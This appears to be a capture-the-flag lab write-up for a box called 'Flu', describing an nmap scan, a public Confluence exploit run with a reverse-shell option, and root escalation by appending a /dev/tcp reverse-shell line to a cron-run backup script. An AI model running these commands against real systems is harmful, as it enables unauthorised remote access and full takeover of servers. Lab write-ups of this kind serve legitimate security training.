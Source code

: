 # Flu

so i start off with a nmap scan to discover open ports:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

The first web page:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We quickly see the version number of the confluence software so we can look for public exploits:

{% embed url="https://github.com/jbaines-r7/through_the_wire" %}

And we catch a shell just like that:

```
python3 through_the_wire.py --rhost 192.168.59.41 --rport 8090 --lhost 192.168.49.59 --lport 1234 --protocol http:// --reverse-shell
```

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i run linpeas and see that there is something going on in the dir /opt/atlassian/confluance/logs/

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i go and see all those files:

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

nothing interesting unfortunatly i went through all those logs and did not grep on any interesting stuff so i back out of this dir one by one and end up in /opt:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

the log-backup.sh file seems interesting:

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So i see this script creates backups and stores them in a root folder so i try to write a reverse shell into it:

```
echo 'sh -i >& /dev/tcp/192.168.49.59/9876 0>&1' >> log-backup.sh
```

and very wierdly i get a shell as root on my listener?

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so there must be a cron running on this file and i was very lucky so i need to be sure by running pspy to look at root to snoop on processes without need for root permissions. It allows to see commands run by other users, cron jobs, etc

so i install pspy in /tmp of my shell with the following:

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

and run it to find UID=0:

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* A script named **`/opt/log-backup.sh`** was run, likely as part of a scheduled task or system process.
* The initial execution (`/bin/sh -c ...`) suggests it may have been triggered by a **cron job**, systemd service, or another script.
* The script itself was executed using **`/bin/bash`**, meaning it contains commands that require Bash rather than the default `sh`.
